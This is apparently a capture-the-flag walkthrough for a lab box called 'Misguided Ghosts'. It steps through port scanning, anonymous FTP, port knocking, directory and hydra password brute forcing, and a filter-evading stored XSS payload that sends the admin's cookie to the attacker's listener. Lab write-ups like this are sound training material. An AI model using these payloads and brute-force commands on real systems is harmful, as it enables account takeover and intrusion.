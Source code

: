 > Misguided Ghosts 

## export IP=10.10.246.84

# Nmap 

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Aug 28 18:11 pub
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

# Anonymous FTP login

```
-rw-r--r--    1 ftp      ftp           103 Aug 28 18:11 info.txt
-rw-r--r--    1 ftp      ftp           248 Aug 26 18:51 jokes.txt
-rw-r--r--    1 ftp      ftp        737512 Aug 18 18:12 trace.pcapng
```

We got the files. Looking at jokes.txt we come to know that we have port knock and from the pcap file we can find the port knocking sequence.

# Inspecting the packet

By searching out of source packets i.e) by ip address we get the port knocking sequence

## Search Query => ip.addr == 192.168.236.131

`7864 8273 9241 12007 60753`

Let's port knock using knockd

knock ghosts.thm 7864 8273 9241 12007 60753

Now we got port 8080.

```
21/tcp   open  ftp        syn-ack
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack
```

It seems to use ssl. Lets try https:IP:8080. Couldn't do much with that image let's move onto Directory Bruteforcing.

sudo gobuster -u https://$IP:8080 -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -k 2>/dev/null -o gobuster/port_8080

```
login
```

Looking at the certificate, it is issued by zac. Let's try bruteforcing using hydra.

hydra -l zac -P /snap/john-the-ripper/rockyou.txt -S $IP -s 8080 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:S=302"

```
zac
```

We can post here let's try to get admin's cookie using XSS. trying basic XSS `<scipt>alert('hi')</script>` and it says `You're too late for the XSS bounty.`. Mm, we have a chance. Let's use reflective XSS.

`&lt;sscriptcript&gt;alert('hi')&lt;/sscriptscript&gt;`

Let's try stored XSS and now we can set up a local server and make the box to communicate with us.

`&lt;sscriptcript&gt;var i = new Image(); i.src = "http://10.8.107.21:1234/" + document.cookie;&lt;/sscriptcript&gt;`

And yep we got his cookie 

```
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.8.107.21 - - [14/Nov/2020 13:24:26] code 404, message File not found
10.8.107.21 - - [14/Nov/2020 13:24:26] "GET /login=zac_from_paramore HTTP/1.1" 404 -
10.10.224.54 - - [14/Nov/2020 13:25:45] code 404, message File not found
10.10.224.54 - - [14/Nov/2020 13:25:45] "GET /login=hayley_is_admin HTTP/1.1" 404 -
```

Replacing the cookie in the browser we have nothing interesting. Let's try gobuster.

gobuster -t 50 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://$IP:8080 -c "login={admin_cookie}" -k 2>/dev/null

```
/login
/photos
```

